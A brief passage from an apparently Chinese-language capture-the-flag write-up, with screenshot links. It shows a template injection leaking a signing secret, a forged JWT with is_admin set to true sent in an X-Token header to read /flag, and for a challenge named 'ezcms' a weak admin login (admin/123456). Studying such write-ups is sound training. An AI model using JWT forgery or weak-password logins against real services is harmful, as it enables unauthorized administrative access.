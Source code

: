 Logged in as {{{.}} 123 false fasdf972u1041xu90zm10Av}

拿到四个值，进行伪造is_admin为true

![Untitled](2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%2011.png)

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOnRydWV9.Lebcn5sry2QGKTbfbZ3pFhUvV9PNAvz0bj55K7IOaQg

将伪造结果带入头X-Token访问/flag

![Untitled](2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%2012.png)

## ezcms

后台弱密码admin 123456 123456

